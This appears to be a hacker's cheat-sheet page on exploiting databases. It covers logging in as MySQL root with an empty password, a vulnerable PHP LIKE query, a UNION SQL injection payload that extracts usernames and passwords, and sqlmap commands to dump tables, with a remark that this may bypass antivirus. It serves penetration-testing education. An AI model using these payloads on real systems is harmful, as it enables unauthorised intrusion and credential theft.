 # Exploit a Database

<hr class="sl">

## Random

Note: this isn't a course about SQL, but stuff that may be useful to hackers.

<div class="row row-cols-md-2"><div>

* `service xxx status`: check if a service is enabled. 
  * `mysql`
  * `postgresql`
  * `...`
* `mysql -u root -p -h <ip>`: login as root to the database at `<ip>`
  * Use `mysql -u root -p` for a local database.
  * Try an empty password, as this is the default password for root.
</div><div>

Inside the SQL console, you may use

* `source <sql>`: in MySQL console, import a SQL file.

Note that even if you can insert a path, you should start the SQL console inside the folder with the SQL file, and only enter the filename. This is because, if the file is importing data from other files, it less likely to still work if the statements are executed from another folder than the one with the script.

* `DESCRIBE <table>`: see the structure of `<table>`
</div></div>

<hr class="sr">

## SQL Injections

<div class="row row-cols-md-2"><div>

Most websites are using SQL database to store records. For instance, when using a login form, the username will most likely be used to fetch a user, then there will be a check of the password.

In some cases, SQL injections are possible. It means that instead of providing our username, we will provide some SQL code that will be injected in the SQL request, and allow a hacker to access the database via the login form.

**Example of injectable PHP code**: this code is fetching a list of products matching the product name send by the client.

```php
$sql = "Select name,desc from product where name LIKE '%$name%'";
```

If the user enter the following value instead of a product name

```php
' UNION Select username,password FROM users-- -
```

Then, the SQL query that will be executed will be

```sql
Select name,desc from product where name LIKE '%' UNION Select username,password FROM users-- -%'
```

Notice that now, the query will return a list of product, concatenated with a list of usernames/password!
</div><div>

**Explanation**

**Inject `'`**: because we want to close the "Like", and avoid an error `[...] LIKE '%`.

```sql
Select name,desc from product where name LIKE '%'%'
```

**1. Inject `' --`**: the problem, is that now the query won't work, because we have 3 single quotes, and there is a trailing `%`. So, what we do is commenting the rest of the query.

```sql
Select name,desc from product where name LIKE '%' --%'
```

**2. Inject `'-- -`**:  The code above may not work on some DBMS, because they want a space between the start of a comment, and the comment itself. So, we add ` -`, to ensure that there is a space.

```sql
Select name,desc from product where name LIKE '%' -- -%'
```

**3. Have fun**: between `'%'` and `-- -%'`, we can write SQL code, through the syntax of the final query must be valid. In the example, we used `UNION Select username,password FROM users`, which is used to merge results of two queries.
</div></div>

<hr class="sl">

## SQLMap

<div class="row row-cols-md-2"><div>

From the [SQLMap GitHub Repository](https://github.com/sqlmapproject/sqlmap): "sqlmap is an open source penetration testing tool that automates the process of detecting and exploiting SQL injection flaws and taking over of database servers.".

Try injecting a form

```bash
# try login.php
sqlmap -u URL/login.php
```

Try dumping the table "users" in the database "db_name"

```bash
sqlmap -u UGL/login.php -D db_name -T users –dump
```

Notes

* Try both with, and without union tests
* `XXX xxx is vulnerable`: enter yes to try exploiting this parameter
</div><div>

* `-u URL`: try injecting this URL
* `--dbs`: display all databases
* `--tables`: display tables
* `--column`: display columns
* `-C xx, yy`: display only columns xx, and yy
* `--dbms=some_dbms`: provide dbms, increase the chances of success
* `-D db_name`: the name of the database
* `--time-sec timeout`: specify a timeout
* `--dump`: save current data
* `--dump-all`: save all data
* `--batch`: do all requests at once (do not way for input)

> [SQLMap CheatSheet](https://www.security-sleuth.com/sleuth-blog/2017/1/3/sqlmap-cheat-sheet) (external)
</div></div>

> You can use **BurpSuite** with SQLMap. Once you intercepted a request, right-click on it, and use **Save item**. Then, in SQLMap, use `-r /path/to/your/saved/item`. If your antivirus is blocking SQLMap, it may bypass it.